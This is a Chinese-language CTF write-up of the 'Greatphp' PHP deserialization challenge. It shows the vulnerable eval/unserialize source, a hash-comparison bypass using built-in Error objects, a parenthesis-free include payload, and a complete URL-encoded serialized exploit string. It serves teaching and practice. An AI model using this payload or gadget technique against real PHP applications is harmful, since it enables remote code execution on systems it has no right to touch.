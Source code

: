 [TOC]



## [极客大挑战 2020]Greatphp



```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

分析一下知道这是反序列化的题

```php
if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) )
```

这里需要使md5、sha1值相等，但是两个变量不同

如果是普通变量的话，我们可以选择数组进行绕过。但这里是在类中，我们不能这么做



我们需要知道，**md5()、sha1()函数可以触发类的`__toString()` 方法**，这是重点

因此，我们只需要让对象的`__toString()`返回值相等即可绕过

这里要用到**php内置类** ： Error、Exception。这两个类都带有`__toString()`方法

<img src="https://s2.loli.net/2023/05/29/xS4tP2qV8aQUhHf.png" alt="image-20230529113202635" style="zoom:50%;" />

我们测试一下：

```php
<?php

$a = new Exception("A");
$b = new Exception("B");
echo $a.PHP_EOL.PHP_EOL;
echo $b;
```

![image-20230529113334552](https://s2.loli.net/2023/05/29/7afuOWGbe6kSqNH.png)

发现只有两个地方不同：A、B 和 5、6

A、B我们可以控制传入相同的payload让其相等，但是5、6是什么意思呢-----行号

我们只需要将定义两个异常类对象写在一行即可：

![image-20230529113854962](https://s2.loli.net/2023/05/29/XRABc1Pq3r4jNke.png)

这样乍一看是相等了，但是我们要注意，这样**两个对象是相等**的：

![image-20230529113831194](https://s2.loli.net/2023/05/29/EfvwGRXbOz21nxg.png)

我们需要了解一下Exception 构造方法的形参有一个异常代码

<img src="https://s2.loli.net/2023/05/29/8pSqnMbm9uI4jBQ.png" alt="image-20230529114134470" style="zoom: 50%;" />

当我们设置的值不同时，对象也就不同了

<img src="https://s2.loli.net/2023/05/29/ExyP3HuKTLXws15.png" alt="image-20230529114225974" style="zoom: 67%;" />



由此，我们突破了第一重限制，接下来分析：

```php
if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           }
```

> 如果我们的 `$this->syc` 是一个`Exception`对象的话，由于进行了正则匹配，所以也会触发 `__toString()`方法

我们不能让payload存在 `<?php` 、`()` `"` `'`

但是此时php版本是7，不能用 : `<script language="php"></script>` 写法

我们可以用：`<?= ?>` 的格式

这个格式`隐含echo`， `<?=1?>` 就相当于`echo 1`

<img src="https://s2.loli.net/2023/05/29/pnBtgKHGVZaylco.png" alt="image-20230529120453218" style="zoom:50%;" />

把小括号()过滤了，不能调用函数了，

但是我们可以使用 `include` 这种不需要括号也能调用的

于是我们可以：

```php
?><?=include $_POST[1]?>
```

构造：

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;

    public function __construct($syc,$lover) {
        $this->syc = $syc;
        $this->lover = $lover;
    }

}
$str = '?><?=include $_POST[1]?>';
$syc = new Error($str,1);$lover = new Error($str,2);
$s = new SYCLOVER($syc,$lover);
echo urlencode(serialize($s));

O%3A8%3A%22SYCLOVER%22%3A2%3A%7Bs%3A3%3A%22syc%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A24%3A%22%3F%3E%3C%3F%3Dinclude+%24_POST%5B1%5D%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A1%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A87%3A%22D%3A%5CApplications%5CCTF%5Cphpstudy_pro%5CWWW%5CCTF%5Cbuuctf%5Cweb4%5C%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98+2020%5DGreatphp.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A13%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7Ds%3A5%3A%22lover%22%3BO%3A5%3A%22Error%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A24%3A%22%3F%3E%3C%3F%3Dinclude+%24_POST%5B1%5D%3F%3E%22%3Bs%3A13%3A%22%00Error%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A2%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A87%3A%22D%3A%5CApplications%5CCTF%5Cphpstudy_pro%5CWWW%5CCTF%5Cbuuctf%5Cweb4%5C%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98+2020%5DGreatphp.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A13%3Bs%3A12%3A%22%00Error%00trace%22%3Ba%3A0%3A%7B%7Ds%3A15%3A%22%00Error%00previous%22%3BN%3B%7D%7D
```

![image-20230529121057559](https://s2.loli.net/2023/05/29/iAF9arPTCd67lfV.png)













